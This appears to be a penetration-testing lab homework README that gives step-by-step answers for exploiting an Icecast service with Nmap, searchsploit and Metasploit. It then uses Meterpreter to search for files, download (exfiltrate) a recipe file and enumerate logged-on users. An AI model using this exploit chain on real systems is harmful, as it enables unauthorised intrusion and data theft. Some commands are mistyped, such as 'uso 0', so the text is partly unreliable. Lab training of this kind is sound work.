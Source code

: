 # Penetration-Test-Engagement-HW


You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

Perform a service and version scan using Nmap to determine which services are up and running:

Run the Nmap command that performs a service and version scan against the target.

Answer: nmap -sV 192.168.0.20

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

Run the SearchSploit commands to show available Icecast exploits.

Answer: searchsploit iceast

Now that we know which exploits are available to us, let's start Metasploit:

Run the command that starts Metasploit:

Answer: msfconsole

Search for the Icecast module and load it for use.

Run the command to search for the Icecast module:

Answer: search icecast

Run the command to use the Icecast module:

Note: Instead of copying the entire path to the module, you can use the number in front of it.

Answer: uso 0

Set the RHOST to the target machine.

Run the command that sets the RHOST:

Answer: set rhosts 192.168.0.20

Run the Icecast exploit.

Run the command that runs the Icecast exploit.

Answer: run

Run the command that performs a search for the secretfile.txt on the target.

Answer: search -f *secretfile*.txt

You should now have a Meterpreter session open.

Run the command to performs a search for the recipe.txt on the target:

Answer: search -f *recipe*.txt

Bonus: Run the command that exfiltrates the recipe*.txt file:

Answer: download 'c:\Users\IEuser\Documents\Drinks.recipe.txt'

You can also use Meterpreter's local exploit suggester to find possible exploits.

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
Bonus
Run a Meterpreter post script that enumerates all logged on users.

Answer: run post/windows/gather/enum_logged_on_users
